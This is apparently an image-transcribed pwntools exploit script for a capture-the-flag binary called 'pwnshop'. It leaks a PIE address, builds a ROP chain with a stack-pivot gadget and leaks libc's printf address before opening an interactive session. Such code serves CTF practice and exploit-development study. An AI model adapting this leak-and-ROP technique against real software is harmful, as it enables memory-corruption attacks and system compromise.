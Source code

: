 ```py
continue
""".format(**locals())

exe = './pwnshop'
elf = context.binary = ELF(exe, checksec=True)
# context.log_level = 'DEBUG'
context.log_level = 'INFO'

sh = start()
pause()
sh.sendlineafter(b'>', b'2')
sh.sendlineafter(b'?', b'a')

## LEAKING PIE
sh.sendlineafter(b'?', b'A' * 7) 
sh.recvline()
get = unpack(sh.recv(6) + b'\x00' * 2)
log.success('LEAKED PIE --> %#0x', get)

elf.address = get - 0x40c0 # 16576
log.info(f'PIE BASE --> {hex(elf.address)}')

rop = ROP(elf)
# sub_rsp_gadget = rop.find_gadget(['sub rsp', '0x28', 'ret'])[0] # sub rsp, 0x28; ret;
sub_rsp_gadget = elf.address + 0x1219
log.success(f'STACK PIVOT GADGET --> {hex(sub_rsp_gadget)}')
rdi_gadget = rop.find_gadget(['pop rdi', 'ret'])[0]
log.success(f'RDI GADGET --> {hex(rdi_gadget)}')
# sh.sendlineafter(b'>', b'1')
sh.sendlineafter(b'>', b'1')

# ROP PAYLOAD
p = flat([
    rdi_gadget,
    elf.got['printf'],
    elf.plt['puts'],
    elf.address + 0x132a
])

# calculate padding for our second payload (stack pivot)
rip_offset = 72
padding = rip_offset - len(p)
log.info(f'padding --> {padding}')

pay = flat([
    asm('nop') * padding,
    rdi_gadget,
    elf.got['printf'],
    elf.plt['puts'],
    elf.address + 0x132a, # buy option
    sub_rsp_gadget
])

# sh.sendlineafter(b':', pay)
sh.sendafter(b':', pay)
leaked_libc = sh.recvline().strip()
# print(leaked_libc)
leaked_libc = unpack(leaked_libc.ljust(8,b'\x00'))
log.success(f'Leaked LIBC printf --> {hex(leaked_libc)}')

sh.interactive()
```

